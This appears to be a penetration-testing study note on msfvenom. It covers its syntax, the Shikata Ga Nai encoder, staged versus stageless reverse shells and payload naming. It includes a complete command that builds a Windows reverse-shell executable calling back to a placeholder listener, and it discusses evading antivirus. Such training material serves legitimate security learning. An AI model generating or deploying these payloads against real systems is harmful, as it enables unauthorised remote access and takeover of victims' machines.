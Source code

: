 # Msfvenom

### Introduction

Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly.

it can also be used to generate payloads in various formats (e.g. `.exe, .aspx, .war, .py`)



### Syntax

The standard syntax for msfvenom is as follows: `msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```



### **Encoders**

#### Shikata Ga Nai (SGN)

The phrase SGN in the Japanese language means “**nothing can be done**”. SGN is a polymorphic XOR additive feedback encoder. It is polymorphic in that each creation of encoded shellcode is going to be different from the next. It accomplishes this through a variety of techniques such as dynamic instruction substitution, dynamic block ordering, randomly interchanging registers, randomizing instruction ordering, inserting junk code, using a random key, and randomization of instruction spacing between other instructions. The XOR additive feedback piece in this case refers to the fact the algorithm is XORing future instructions via a random key and then adding that instruction to the key to be used again to encode the next instruction. Decoding the shellcode is a process of following the steps in reverse. Its name to use is `x86/shikata_ga_nai`



### **Staged vs Stageless**

#### Staged Reverse Shell Payloads

Staged payloads are sent in two parts -- The first part is called the **stager**. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any **reverse shell code** by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Staged payloads require a special listener -- usually the Metasploit multi/handler

Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (**AMSI**) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

#### Stageless Reverse Shell Payloads

Stageless payloads are more common. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove.



### Payload Naming Conventions

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows: `<OS>/<arch>/<payload>`

For example:

1. `linux/x86/shell_reverse_tcp`
   * This would generate a stageless reverse shell for an x86 Linux target.
2. The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:
   * `windows/shell_reverse_tcp`
3. For a 64bit Windows target, the arch would be specified as normal (x64).

In the above examples the payload used was **shell\_reverse\_tcp**. This indicates that it was a stageless payload. **Stageless payloads are denoted with underscores (\_)**.

The staged equivalent to this payload would be: **shell/reverse\_tcp**, **As staged payloads are denoted with another forward slash (/).**

**This rule also applies to Meterpreter payloads**. A Windows 64bit staged Meterpreter payload would look like this: windows/x64/meterpreter/reverse\_tcp

A Linux 32bit stageless Meterpreter payload would look like this: linux/x86/meterpreter\_reverse\_tcp



### List Payloads

To list all available payloads, `msfvenom --list payloads`

Which can then be `piped` into grep to search for a specific set of payloads.

